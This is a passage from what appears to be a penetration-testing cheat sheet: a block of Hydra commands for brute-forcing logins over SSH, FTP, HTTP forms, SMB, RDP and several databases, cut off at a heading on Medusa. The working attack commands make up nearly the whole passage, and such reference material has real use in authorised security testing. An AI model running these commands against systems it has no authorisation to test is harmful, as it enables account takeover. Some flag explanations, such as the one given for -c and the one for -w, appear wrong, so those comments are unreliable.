 ```bash
# Basic service brute force
hydra -l admin -p admin target_ip ssh

# User and password lists
hydra -L users.txt -P passwords.txt target_ip ssh

# Single user, multiple passwords
hydra -l admin -P passwords.txt target_ip ssh

# Multiple services
hydra -L users.txt -P passwords.txt target_ip ssh ftp telnet

# HTTP form brute force
hydra -L users.txt -P passwords.txt target_ip http-post-form "/login.php:username=^USER^&password=^PASS^:Login failed"

# HTTPS form brute force
hydra -L users.txt -P passwords.txt target_ip https-post-form "/login:user=^USER^&pass=^PASS^:Invalid"

# SMB brute force
hydra -L users.txt -P passwords.txt target_ip smb

# RDP brute force
hydra -L users.txt -P passwords.txt target_ip rdp

# Database brute force
hydra -L users.txt -P passwords.txt target_ip mysql
hydra -L users.txt -P passwords.txt target_ip postgres
hydra -L users.txt -P passwords.txt target_ip mssql

# Custom port specification
hydra -L users.txt -P passwords.txt -s 2222 target_ip ssh

# Parallel task control
hydra -t 16 -L users.txt -P passwords.txt target_ip ssh

# Verbose output
hydra -v -L users.txt -P passwords.txt target_ip ssh

# Continue on successful login
hydra -c -L users.txt -P passwords.txt target_ip ssh

# Wait time between attempts
hydra -w 30 -L users.txt -P passwords.txt target_ip ssh

# Exit after first valid pair
hydra -f -L users.txt -P passwords.txt target_ip ssh
```

### 4.2 Medusa: Parallel Network Login Brute Force
